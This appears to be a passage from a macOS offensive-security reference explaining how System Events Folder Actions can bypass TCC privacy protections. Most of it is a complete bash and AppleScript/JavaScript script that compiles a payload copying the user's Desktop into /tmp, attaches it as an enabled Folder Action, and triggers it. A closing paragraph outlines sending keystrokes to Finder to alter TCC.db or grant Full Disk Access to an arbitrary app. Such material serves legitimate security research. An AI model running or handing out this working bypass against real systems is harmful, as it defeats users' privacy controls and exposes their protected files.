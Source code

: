 **System Events can create Folder Actions, and Folder actions can access some TCC folders** (Desktop, Documents & Downloads), so a script like the following one can be used to abuse this behaviour:

```bash
# Create script to execute with the action
cat > "/tmp/script.js" <<EOD
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("cp -r $HOME/Desktop /tmp/desktop");
EOD

osacompile -l JavaScript -o "$HOME/Library/Scripts/Folder Action Scripts/script.scpt" "/tmp/script.js"

# Create folder action with System Events in "$HOME/Desktop"
osascript <<EOD
tell application "System Events"
    -- Ensure Folder Actions are enabled
    set folder actions enabled to true

    -- Define the path to the folder and the script
    set homeFolder to path to home folder as text
    set folderPath to homeFolder & "Desktop"
    set scriptPath to homeFolder & "Library:Scripts:Folder Action Scripts:script.scpt"

    -- Create or get the Folder Action for the Desktop
    if not (exists folder action folderPath) then
        make new folder action at end of folder actions with properties {name:folderPath, path:folderPath}
    end if
    set myFolderAction to folder action folderPath

    -- Attach the script to the Folder Action
    if not (exists script scriptPath of myFolderAction) then
        make new script at end of scripts of myFolderAction with properties {name:scriptPath, path:scriptPath}
    end if

    -- Enable the Folder Action and the script
    enable myFolderAction
end tell
EOD

# File operations in the folder should trigger the Folder Action
touch "$HOME/Desktop/file"
rm "$HOME/Desktop/file"
```

### Automation (SE) + Accessibility (**`kTCCServicePostEvent`|**`kTCCServiceAccessibility`**)** to FDA\*

Automation on **`System Events`** + Accessibility (**`kTCCServicePostEvent`**) allows to send **keystrokes to processes**. This way you could abuse Finder to change the users TCC.db or to give FDA to an arbitrary app (although password might be prompted for this).
